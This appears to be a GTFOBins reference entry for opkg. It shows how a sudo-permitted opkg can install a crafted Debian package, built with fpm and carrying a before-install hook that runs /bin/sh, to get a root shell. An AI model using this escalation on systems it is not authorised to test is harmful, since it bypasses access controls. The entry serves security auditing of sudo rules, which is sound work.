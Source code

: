 # GTFOBin: opkg

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs an interactive shell using a specially crafted Debian package. Generate it with fpm and upload it to the target.

```
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

```

```
sudo opkg install x_1.0_all.deb
```
